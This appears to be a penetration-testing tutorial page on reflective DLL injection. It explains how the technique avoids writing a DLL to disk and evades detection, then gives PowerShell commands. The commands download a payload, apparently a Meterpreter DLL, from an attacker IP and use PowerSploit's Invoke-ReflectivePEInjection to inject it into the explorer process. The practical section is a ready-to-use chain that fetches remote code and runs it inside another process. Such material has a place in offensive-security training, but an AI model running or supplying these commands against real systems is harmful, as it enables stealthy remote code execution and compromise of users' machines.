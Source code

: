 ## Why Reflective?
Loading a DLL into a remote process is powerful, but writing the DLL to disk is a significant compromise. To improve our tradecraft, let's explore a technique known as reflective DLL injection.

## The Theory
_LoadLibrary_ performs a series of actions including loading DLL files from disk and setting the correct memory permissions. It also registers the DLL so it becomes usable from APIs like _GetProcAddress_ and is visible to tools like Process Explorer.

Since we do not need to rely on _GetProcAddress_ and want to avoid detection, we are only interested in the memory mapping of the DLL. Reflective DLL injection parses the relevant fields of the DLL's _Portable Executable_ (PE) file format and maps the contents into memory.

In order to implement reflective DLL injection, we could write custom code to essentially recreate and improve upon the functionality of _LoadLibrary_.

## Practical
We'll be using the PowerShell script for reflective DLL injection.
[Invoke-ReflectivePEInjection](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1)
The script performs reflection to avoid writing assemblies to disk, after which it parses the desired PE file. It has two separate modes:
1.  To reflectively load a DLL or EXE into the same process
2. To load a DLL into a remote process

Using the script itself is really easy:
1. We start by loading the DLL into a byte array and retrieve the explorer process ID.
2. We import the script itself
3. Call the Invoke-ReflectivePEInejection function to execute the script.

The following commands will do everything we need:
```Powershell
$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.49.150/met.dll')
$procid = (Get-Process -Name explorer).Id
```
```Powershell
Import-Module C:\Tools\Invoke-ReflectivePEInjection.ps1
```
```Powershell
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```

